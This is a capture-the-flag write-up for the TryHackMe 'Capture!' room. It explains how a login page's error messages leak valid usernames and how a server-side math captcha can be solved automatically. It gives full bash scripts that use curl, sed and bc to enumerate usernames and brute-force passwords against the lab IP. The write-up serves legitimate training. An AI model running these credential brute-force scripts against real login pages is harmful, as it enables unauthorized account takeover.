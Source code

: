 
# THM - Capture! writeup

Link : https://tryhackme.com/room/capture

## First step: discovery
We have a website to hack, with a quick introduction: there is no WAF but an homemade mechanism...

We download a zip archive with usernames and passwords. Easy - _too easy_ ?

Let's open the website: a simple basic login page. But when we try a few random logins, we get a captcha !

The captcha itself is easy to crack. It's a simple math operation. **But**
- there is no cookie, no session, no hidden field in the form
- and the captcha is actually really checked. If we type a wrong value, we get an "Invalid captcha" - instead of "user does not exist"

--> It would be logical to say that captcha is handled _server-side_. Each HTTP response generates a captcha and expects the next HTTP request to provide the right answer.

Said differently: we shall not use parallel requests - so no Hydra, no ffuf (unless we properly configure them).

Anyway, let's do it manually !

## Second step: get username
There is an information disclosure issue in the error message. It says "user does not exist".
So... if the user exists, we may have a different error message (like "Invalid password", maybe).

Solving the captch is not an issue. We notice that the question lies on line 97 of all HTTP responses. Let's use some command line tools like
- sed, to get the question
- bc, to get the answer

The following get_username.sh script will iterate on all usernames and halt on the 

```
#!/bin/bash
curl 'http://10.10.240.139/login' -s -X POST \
  --data-raw 'username=test&password=test' > lastresponse


for i in $(cat usernames.txt); do
        # Get captcha answer from last HTTP responsei, line 97
        # (use bc to get the result)
        captcha=$(cat lastresponse | sed -n '97p'|sed 's/ =.*//' | bc)

        # username cleansing - too lazy to set IFS
        user=$(echo $i|sed 's/[^a-z]//g')

        # new attempt
        curl 'http://10.10.240.139/login' -s -X POST \
          --data-raw "username=$user&password=test&captcha=$captcha" \
          > lastresponse

        # check if last response is different
        cat lastresponse | sed -n '105p' | grep -v "does not exist" \
         && echo $user && break
done
```

Let's explain this a little bit
- We execute curl to get the first "last response"
- For each username
- - We get the captcha from last response
- - We sanitize username (I'm too lazy to set the correct IFS...)
- - We execute a curl to test username, this will be our new "last response"
- - If there is no message "does not exist" on line 105, we get our username !

Let's go !!

```
┌──(root㉿kali)-[~/Downloads]
└─# ./get_username.sh
    <p class="error"><strong>Error:</strong> Invalid password for user &#39;xxxREDACTEDxxx&#39;
xxxREDACTEDxxx
```

Now, let's find the password.

## Third step: get password
We'll do exactly the same. To halt, let's be a bit more tricky: if the password is right, we won't have any captcha in the response, right ? So the next issue won't be "Invalid password", but "Invalid captcha".

The get_password.sh script accepts one parameter (username), and iterates over all passwords to get the correct one.

```
#!/bin/bash
curl 'http://10.10.240.139/login' -s -X POST \
  --data-raw 'username=test&password=test' > lastresponse

previous=
for i in $(cat passwords.txt); do
        # Get captcha ...
        captcha=$(cat lastresponse | sed -n '97p'|sed 's/ =.*//' | bc)
        # Too lazy again...
        password=$(echo $i | sed 's/[^a-zA-Z0-9]//')
        curl 'http://10.10.240.139/login' -s -X POST \
          --data-raw "username=$1&password=$password&captcha=$captcha" \
          > lastresponse
        cat lastresponse | sed -n '105p' | grep -v "Invalid password for" \
          && echo $previous && break
        previous=$password
done
```

Let's go (again) !!!

```
┌──(root㉿kali)-[~/Downloads]
└─# ./get_password.sh xxxREDACTED_USERxxx
    <p class="error"><strong>Error:</strong> Invalid captcha
xxxREDACTED_PASSWORDxxx
```

## Last step: get the flag
Just connect with username and password we found, that's all.

Bonus: this scripts automates the whole process:
```

#!/bin/bash
curl 'http://10.10.240.139/login' -s -X POST \
  --data-raw 'username=test&password=test' > lastresponse

for i in $(cat usernames.txt); do
        # Get captcha answer from last HTTP responsei, line 97
        # (use bc to get the result)
        captcha=$(cat lastresponse | sed -n '97p'|sed 's/ =.*//' | bc)

        # username cleansing - too lazy to set IFS
        user=$(echo $i|sed 's/[^a-z]//g')

        # new attempt
        curl 'http://10.10.240.139/login' -s -X POST \
          --data-raw "username=$user&password=test&captcha=$captcha" \
          > lastresponse

        # check if last response is different
        cat lastresponse | sed -n '105p' | grep -v "does not exist" \
        > /dev/null && break
done

echo Found username: $user

previous=
for i in $(cat passwords.txt); do
        # Get captcha ...
        captcha=$(cat lastresponse | sed -n '97p'|sed 's/ =.*//' | bc)
        # Too lazy again...
        password=$(echo $i | sed 's/[^a-zA-Z0-9]//')
        curl 'http://10.10.240.139/login' -s -X POST \
          --data-raw "username=$user&password=$password&captcha=$captcha" \
          > lastresponse
        cat lastresponse | sed -n '105p' | grep -v "Invalid password for" \
         > /dev/null && break
        previous=$password
done

echo Found password: $previous

captcha=$(cat lastresponse | sed -n '97p'|sed 's/ =.*//' | bc)
curl 'http://10.10.240.139/login' -s -X POST \
  --data-raw "username=$user&password=$previous&captcha=$captcha" \
  | sed 's/<[^>]*>//g'
```


Et voilà !
